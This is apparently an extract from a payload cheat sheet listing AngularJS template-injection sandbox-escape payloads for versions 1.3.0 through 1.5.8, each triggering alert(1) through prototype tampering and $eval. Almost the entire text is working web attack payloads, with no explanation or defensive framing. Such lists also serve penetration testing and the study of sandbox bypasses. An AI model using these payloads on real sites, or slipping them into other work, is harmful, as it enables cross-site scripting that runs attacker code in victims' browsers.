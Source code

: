 AngularJS 1.5.0 - 1.5.8

```javascript
{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}
```

AngularJS 1.4.0 - 1.4.9

```javascript
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)')}}
```

AngularJS 1.3.20

```javascript
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}
```

AngularJS 1.3.19

```javascript
{{
    'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join;
    $eval('x=alert(1)//');
}}
```

AngularJS 1.3.3 - 1.3.18

```javascript
{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
  'a'.constructor.prototype.charAt=[].join;
  $eval('x=alert(1)//');  }}
```

AngularJS 1.3.1 - 1.3.2

```javascript
{{
    {}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
    'a'.constructor.prototype.charAt=''.valueOf;
    $eval('x=alert(1)//');
}}
```

AngularJS 1.3.0

```javascript
{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}
```
